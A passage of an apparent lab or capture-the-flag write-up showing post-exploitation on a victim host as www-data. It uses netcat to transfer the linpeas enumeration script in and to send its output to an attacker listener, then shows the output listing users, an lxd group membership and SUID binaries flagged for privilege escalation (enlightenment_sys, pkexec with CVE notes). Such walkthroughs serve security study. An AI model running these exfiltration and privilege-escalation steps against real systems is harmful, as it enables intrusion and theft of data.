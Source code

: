 `cat ./linpeas.sh | nc 192.168.56.127 6666 -q 0`

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`ls -l ./linpeas.sh`:
```
-rw-r--r-- 1 www-data www-data 860337 Oct  4 14:10 ./linpeas.sh
```

`chmod u+x ./linpeas.sh`

`./linpeas.sh > ./linpeas_output.txt 2> /dev/null`

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`nc -lvnp 7777 > ./linpeas_output.txt`:
```
listening on [any] 7777 ... ←
```

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`cat ./linpeas_output.txt | nc 192.168.56.118 7777 -q 0`

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

```
connect to [192.168.56.118] from (UNKNOWN) [192.168.56.127] 51218 ←
```

`cat -n ./linpeas_output.txt`:
```
[...]

   544  ╔══════════╣ Users with console
   545  aelis:x:1000:1000:aelis:/home/aelis:/bin/bash                              
   546  root:x:0:0:root:/root:/bin/bash
   547
   548  ╔══════════╣ All users & groups
   549  uid=0(root) gid=0(root) groups=0(root)        
   550  uid=1(daemon[0m) gid=1(daemon[0m) groups=1(daemon[0m)
   551  uid=10(uucp) gid=10(uucp) groups=10(uucp)
   552  uid=100(_apt) gid=65534(nogroup) groups=65534(nogroup)
   553  uid=1000(aelis) gid=1000(aelis) groups=1000(aelis),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd)

[...]

  1098                        ╔════════════════════════════════════╗
  1099  ══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
  1100                        ╚════════════════════════════════════╝
  1101  ╔══════════╣ SUID - Check easy privesc, exploits and write perms
  1102  ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                    
  1103  -rwsr-xr-- 1 root messagebus 35K Apr  1  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper            
  1104  -rwsr-xr-x 1 root root 23K Feb 11  2022 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
  1105  -rwsr-xr-x 1 root root 59K Feb 11  2022 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_system (Unknown SUID binary!)
  1106  -rwsr-xr-x 1 root root 23K Feb 11  2022 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!) ←
  1107  -rwsr-xr-x 1 root root 331K Nov 23  2022 /usr/lib/openssh/ssh-keysign
  1108  -rwsr-xr-x 1 root root 19K Feb 26  2022 /usr/libexec/polkit-agent-helper-1
  1109  -rwsr-xr-x 1 root root 31K Feb 26  2022 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
```